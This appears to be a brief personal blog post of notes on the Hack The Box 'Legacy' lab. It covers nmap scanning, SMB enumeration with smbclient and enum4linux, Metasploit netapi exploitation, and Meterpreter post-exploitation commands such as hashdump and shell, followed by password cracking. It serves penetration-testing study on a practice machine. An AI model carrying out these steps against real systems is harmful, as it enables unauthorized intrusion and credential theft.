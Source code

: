 ```yaml
---
layout: post
title: Network Security
subtitle: HTB Legacy
cover-img: /assets/img/path.jpg
tags: [Pentesting, Vulnerability Assessment, CTF, NMAP, Meterpreter]
---
```


#### Differnce between TCP and SYN scan

TCP scan 
 ```
 SYN 
 ACK+SYN
 ACK
```

SYN scan
```
SYN 
ACK+SYN
RST
```

#### Running NMAP

nmap -A -T4 -p- <i.p>
   •  Port 139, 445  open
      ◇ smbclient -L \\<ip>\
      ◇ enum4linux -a <ip>[ optional ]

⇒ msfconsole
   • search smb_version
      ◇  We dont't know the smb version here, so checked rapid7 website and got netapi
      ◇  search netapi
           • use 1 
           • set rhosts <ip>, <ip>/24
           • run/exploit

#### Meterpreter commands - 
   • getuid
   • sysinfo
   • help(optional)
   • hashdump
   • shell
      ◇ Will redirect to System32 
⇒ Crack the passwords


#### For detailed explanation : [Another approach](https://medium.com/@ranakhalil101/hack-the-box-legacy-writeup-w-o-metasploit-2d552d688336)




